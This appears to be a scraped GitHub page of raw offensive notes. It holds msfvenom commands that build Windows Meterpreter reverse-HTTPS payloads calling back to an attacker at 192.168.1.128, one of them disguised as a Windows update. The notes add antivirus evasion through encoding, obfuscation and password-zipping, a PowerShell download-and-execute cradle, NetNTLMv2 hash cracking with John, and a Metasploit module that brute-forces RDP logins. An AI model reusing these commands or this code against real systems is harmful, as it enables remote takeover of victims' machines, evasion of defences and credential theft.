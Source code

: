 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation


http://192.168.1.128:8080/update_pacth.exe

zip --password SuaSenhaForte payload_protegido.zip payload_encoded.exe

IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.128:8080/payload.ps1')


john --wordlist=wordlist_personalizada_advanced.txt --format=netntlmv2 hash_john.txt

##
# This module attempts to brute-force RDP logins
##

require 'msf/core'
require 'rex/proto/rdp'

class MetasploitModule < Msf::Auxiliary

  include Msf::Exploit::Remote::RDP
  include Msf::Auxiliary::Scanner
  include Msf::Auxiliary::Report

  def initialize
    super(
      'Name'        => 'RDP Login Brute Force Scanner',
      'Description' => 'Brute-forces RDP logins',
      'Author'      => ['zerobyte-id', 'community'],
      'License'     => MSF_LICENSE
    )

    register_options(
      [
        Opt::RPORT(3389),
        OptString.new('USERNAME', [true, 'User to bruteforce']),
        OptPath.new('PASS_FILE', [true, 'File containing passwords to try'])
      ]
    )
  end

  def run_host(ip)
    password_list = File.readlines(datastore['PASS_FILE']).map(&:chomp)
    user = datastore['USERNAME']

    password_list.each do |password|
      begin
        print_status("Trying #{user}:#{password} on #{ip}")
        if rdp_login(ip, user, password)
          print_good("SUCCESS: #{user}:#{password} on #{ip}")
          report_cred(
            ip: ip,
            port: datastore['RPORT'],
            service_name: 'rdp',
            user: user,
            password: password
          )
          return
        end
      rescue ::Rex::ConnectionError
        print_error("Could not connect to #{ip}")
        return
      end
    end
  end
end






